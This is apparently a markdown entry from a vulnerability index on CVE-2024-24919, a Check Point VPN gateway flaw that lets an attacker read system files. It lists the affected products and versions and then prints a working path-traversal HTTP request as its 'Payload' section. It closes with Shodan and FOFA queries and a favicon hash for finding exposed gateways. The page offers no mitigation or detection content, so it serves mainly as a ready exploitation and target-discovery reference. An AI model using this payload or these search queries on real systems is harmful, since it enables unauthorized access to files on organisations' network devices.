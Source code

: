 <link rel="stylesheet" type="text/css" href="css/styles.css">

---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---

Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

# Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

# Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
